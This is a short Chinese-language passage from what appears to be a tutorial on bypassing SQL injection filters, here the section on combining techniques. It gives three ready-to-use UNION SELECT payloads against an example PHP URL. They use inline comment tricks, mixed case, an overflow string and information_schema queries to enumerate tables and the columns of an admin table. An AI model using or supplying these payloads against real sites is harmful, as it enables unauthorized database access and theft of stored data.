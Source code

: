 ## i) 整合绕过

整合的意思是结合使用前面谈到的各种绕过技术，单一的技术可能无法绕过过滤机制，但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说是总体与局部和的关系，另一方面则是多种技术的使用创造了更多的可能性，除非每一种技术单独都无法使用，否则它们能产生比自身大得多的能量。

举例：

`z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…`

 

`id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -`

 

`?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--  `

 